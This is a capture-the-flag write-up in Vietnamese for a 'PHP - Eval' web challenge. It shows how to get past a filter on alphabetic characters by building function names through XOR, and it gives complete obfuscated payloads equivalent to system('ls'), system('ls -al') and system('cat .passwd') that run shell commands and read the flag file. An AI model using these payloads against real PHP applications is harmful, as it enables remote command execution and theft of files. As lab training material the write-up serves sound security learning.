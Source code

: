```diff
@@ Web-Server Challenge
```



## PHP - Eval [40 Points]

* Challenge cung cấp cho ta source code như sau

  ![4](img/4.jpg)

* Từ source code ta biết mục tiêu là bypass filter (lọc các ký tự alphabet) để thực thi các lệnh command line bằng hàm Eval. Vì các ký tự alphabet đều bị lọc nên ta thử tìm kiếm cách bypass và đọc được blog sau [đây](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) 

  ![4-5](img/4-5.jpg)

* Cụ thể, ta có thể dùng phép toán XOR để tạo ra các ký tự như mong muốn (ví dụ  ... ). Ta tự viết một script để có thể tự động chuyển chuỗi của ta thành payload có thể bypass

  ![4-1](img/4-1.jpg)

* Với payload ```('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-').'('.('['^'|').('@'^',').('^'^'-').('['^'|').')'``` (Tương đương với lệnh system('ls'). Kết quả ta thấy trang web chỉ in ra mà không thực thi hàm như mong muốn.

  ![4-2](img/4-2.jpg)

* Tới đây thì em không tìm được nguyên nhân mặc dù đã dựng lại môi trường tương tự. Thử search google thì thấy gợi ý về việc thay đổi cách gọi hàm. Cụ thể ta phải đổi cách gọi hàm thành dạng ```(function-name)(params)``` ví dụ (system)(ls) hoặc (system)('ls'). Điều này sẽ giúp PHP coi đoạn input đó là lệnh gọi hàm .. (maybe)

* Việc của bây giờ là đi tìm file chứa flag, thử với ```ls -al``` ta có

  - Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^',').('^'^'-').('~'^'^').'-'.('!'^'@').('@'^','))``` Tương đương với ```(system)(ls -al)```

  - Kết quả

    ![4-3](img/4-3.jpg)

* ```cat .passwd``` ta được kết quả

  * Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^'#').('!'^'@').('^'^'*').('~'^'^').'.'.('^'^'.').('!'^'@').('^'^'-').('^'^'-').('^'^')').('@'^'$'))``` tương đương với ```(system)(cat .passwd)```

  * Kết quả

    ![4-4](img/4-4.jpg)

